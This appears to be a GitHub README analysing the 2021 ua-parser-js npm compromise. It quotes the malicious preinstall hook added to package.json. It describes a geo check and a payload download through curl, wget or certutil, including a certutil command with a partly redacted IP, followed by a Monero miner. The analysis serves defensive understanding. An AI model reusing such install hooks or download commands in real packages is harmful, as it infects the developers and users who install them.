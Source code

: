 # ua-parser-vuln

**Data Sources:**
Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945
Virustotal: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/behavior/C2AE
CISA Announcement: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js
Therecord: https://therecord.media/malware-found-in-npm-package-with-millions-of-weekly-downloads/


Package.json has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added, to call the new attack scripts.
preinstall.js looks to see Windows, mac, linux, and call the correct file

On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing.

Else, it pulls down  jsextention from a remote IP in the Latvia GEO

**If Windows:**
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****

